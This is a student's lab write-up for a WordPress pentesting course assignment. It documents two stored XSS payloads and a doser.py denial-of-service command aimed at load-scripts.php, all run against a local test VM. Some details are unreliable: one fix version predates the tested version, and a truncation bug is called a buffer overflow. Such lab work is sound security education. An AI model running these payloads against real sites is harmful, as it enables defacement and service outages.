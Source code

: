 # Week7-CodePath

# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report


1. Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: By inserting javascript infront of filename of image when the file is uploaded and the image is selected the script will run. This is due to Word Press not filtering javascript in the filenames text when an image is uploaded.
    - Vulnerability types: Cross Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.0.13
  - [ ] GIF Walkthrough: https://gfycat.com/anothersorrowfulfritillarybutterfly
  - [ ] Steps to recreate: Include script <img src=a onclick=alert("Oh_Baby_a_Triple!")> infront of the .img
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. Authenticated Stored Cross-Site Scripting
  - [ ] Summary: By inserting malicious javascript (“<a title='x onclick=alert(unescape(/Pwned/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px "64kb characters"><a>") in the comment section followed by 64kb of characters, this creates a buffer overflow that allows the script to run when on the Post's page.
    - Vulnerability types: Cross Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: https://gfycat.com/CriminalWhichDoctorfish
  - [ ] Steps to recreate: Add the javascript in the comment section and after posting the comment click the page to activate XSS onclick.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
3. Application Denial of Service (DoS) (Unpatched)
  - [ ] Summary: This DOS attack is accomplished by exploiting the vulnerability found in the page load-scripts.php which allows the user to send multiple javascript files in one request, this causes the network to slow to a crawl trying process all the scripts.
    - Vulnerability types: DOS attack
    - Tested in version: 4.2
    - Fixed in version: never fixed
  - [ ] GIF Walkthrough: https://gfycat.com/soulfulsophisticatedbarbet
  - [ ] Steps to recreate: By using the doser.py code created by Barak Tawily on github we can insert this command to DOS attack the Word Press server.
 
  python doser.py -g 'http://WPdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets
Reference:https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html

Reference:https://www.exploit-db.com/exploits/36844/

Reference:https://github.com/quitten/doser.py

Reference:https://thehackernews.com/2018/02/wordpress-dos-exploit.html

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [giphy](https://giphy.com/).

## Notes

During testing WPdistillery after performing a buffer overflow attack I ran into the issue of the Virtual Machine breaking. In which I had to reinstall the WPdistillery machine and had to set up everything again.

## License

    Copyright [2018] [Michael Freeman]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
